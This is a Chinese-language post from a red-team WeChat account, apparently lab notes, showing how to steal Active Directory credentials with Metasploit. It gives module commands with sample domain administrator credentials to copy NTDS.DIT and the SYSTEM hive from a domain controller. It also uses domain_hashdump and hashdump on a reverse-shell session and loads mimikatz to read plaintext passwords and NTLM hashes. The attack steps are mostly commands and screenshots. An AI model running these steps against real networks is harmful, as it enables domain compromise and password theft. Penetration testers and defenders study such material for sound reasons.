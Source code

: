 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/TInOaQ5WPt27pWM_0tXfJQ)

渗透攻击红队

一个专注于红队攻击的公众号

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDoZibS8XU01CtEtSbwM3VGr3qskOmA1VkccY0mwKTCq6u2ia1xYRwBn3A/640?wx_fmt=jpeg)

  

  

大家好，这里是 **渗透攻击红队** 的第 **35** 篇文章，本公众号会记录一些我学习红队攻击的复现笔记（由浅到深），不出意外每天一更

  

**Metasploit**

**psexec_ntdsgrab 模块的使用**

在 MSF 中使用 psexec_ntdsgrab 模块：

```
use auxiliary/admin/smb/psexec_ntdsgrab
set rhosts 192.168.2.25
set smbdomain god.org
set smbuser administrator
set smbpass Admin12345
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LJVsGOWM7oRcYxA6kqIAiaP4rZ6qdZjDGxZib3yszQ6M7fTTpF2SoV8hic76wDYdEKAWlPibd89iafYOFg/640?wx_fmt=png)

设置完后然后执行 exploit 运行（要运行两次，该脚本使用卷影拷贝服务）：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LJVsGOWM7oRcYxA6kqIAiaP4Eoico8dzzdjmTibQpj0s0lpic5GpBJKR95lObo6K5ykbeM23blqI2gMlg/640?wx_fmt=png)

可以通过 SMB 服务直接与域控制器进行身份验证，创建系统驱动的卷影复制，并将 NTDS.DIT 和 SYSTEM hive 的副本下载到 Metasploit 目录中。这些文件可以与 impacket 等其他工具一起使用，这些工具可用于执行活动目录密码哈希值的提取。ntds.dit 和 SYSTEM 会放在 /root/.msf4/loot/ 文件夹下：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LJVsGOWM7oRcYxA6kqIAiaP4Sz6org8LgyvDc7aSe3GzhToVmNDVXPCOQ7Y8xIfLq5MFYJu4hfKFWQ/640?wx_fmt=png)

之后就可以使用 impacket 工具包等解析 ntds.dit 文件，导出域账号和域散列值了。

**Metasploit 会话获取域账号和哈希值**

首先是使用 msf 反弹了一个域控的 shell：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LJVsGOWM7oRcYxA6kqIAiaP4Ro3siauXicavUhv0PTnQDgsnCCenuibEJ31QoF1hp1kyfsbDFWAMBrHwA/640?wx_fmt=png)

然后使用 MSF 的后渗透模块：

```
use post/windows/gather/credentials/domain_hashdump
set session 2
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LJVsGOWM7oRcYxA6kqIAiaP4eb7CFlajpv5drxaBsXhzcu1LZ8R5icnBhicAOM1vNGeGx68tvKD7VJ4g/640?wx_fmt=png)

然后运行 exploit ：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LJVsGOWM7oRcYxA6kqIAiaP4AnxBGH5VC8iaWoZxe2JAOdbzI4uy9mWDVgLNRyCVvPz1wssicrf2ewPw/640?wx_fmt=png)

但是利用失败了，我也不知道为啥。

还可以使用 hashdump 来导出用户 hash：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LJVsGOWM7oRcYxA6kqIAiaP4WgmdNzPJyHfM6IIcdbRVswC1Rhn0LurhUYpHWMtzTzhdfQ98BSo6Kg/640?wx_fmt=png)

还可以通过 MSF 加载 mimikatz 来读取密码：

```
# 加载mimikaz
load mimikatz
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LJVsGOWM7oRcYxA6kqIAiaP4rfe8afwFXu5rGGjw0dM2WiciaVOepJax0BuD6r8DyDrWFHZZtwsP4Rvw/640?wx_fmt=png)

```
# 抓取明文密码
wdigest
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LJVsGOWM7oRcYxA6kqIAiaP4fvcuwV93Nicu4Y9Lia304Pl4Uf4ThfuoMGMM7rUUEja43PJP5Qs0HQsA/640?wx_fmt=png)

```
# 抓取明文密码
kerberos
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LJVsGOWM7oRcYxA6kqIAiaP4GELo5MpVfd8mMboOs7dYox7usGwyYmQ2Isn4LMnITEjFtMKtQITk6w/640?wx_fmt=png)

```
# 抓取加密后的ntlm、lm密码
msv
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LJVsGOWM7oRcYxA6kqIAiaP4vbzW8Ob2ZnRNia2FyyMZM5y04qYhJVoZcjrWyGgF9DN6HI64nIqTEyQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

渗透攻击红队

一个专注于渗透红队攻击的公众号

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDdjBqfzUWVgkVA7dFfxUAATDhZQicc1ibtgzSVq7sln6r9kEtTTicvZmcw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDY9HXLCT5WoDFzKP1Dw8FZyt3ecOVF0zSDogBTzgN2wicJlRDygN7bfQ/640?wx_fmt=png)

点分享

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDRwPQ2H3KRtgzicHGD2bGf1Dtqr86B5mspl4gARTicQUaVr6N0rY1GgKQ/640?wx_fmt=png)

点点赞

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDgRo5uRP3s5pLrlJym85cYvUZRJDlqbTXHYVGXEZqD67ia9jNmwbNgxg/640?wx_fmt=png)

点在看